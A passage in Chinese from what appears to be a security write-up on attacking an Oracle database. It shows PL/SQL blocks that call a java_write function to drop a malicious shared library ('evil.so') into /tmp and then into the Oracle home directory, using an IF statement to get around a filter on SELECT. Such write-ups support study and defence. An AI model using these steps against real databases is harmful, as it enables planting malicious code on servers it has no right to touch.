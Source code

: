 接下来调用这个 java\_write 写入恶意 so

```plain
BEGIN
if (java_write('/tmp/evil.so') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```

在这里 select 被过滤了，因此我们需要使用别的语句去调用方法，这里用的是 if 语句。

[![](assets/1709112088-0a6bf6a076f03de46d18582959c0919b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101358-08386f78-d5df-1.png)

在这里报错了，原因是目录问题，我们只可以写入 ORCLE\_HOME，而其他文件位置我们是不知道的。

[![](assets/1709112088-a4d8c19f780df4ac1f27be7b9792b310.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101405-0c8c19da-d5df-1.png)

改为

```plain
BEGIN
if (java_write('/opt/oracle/product/23c/dbhomeFree/evil.so') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```
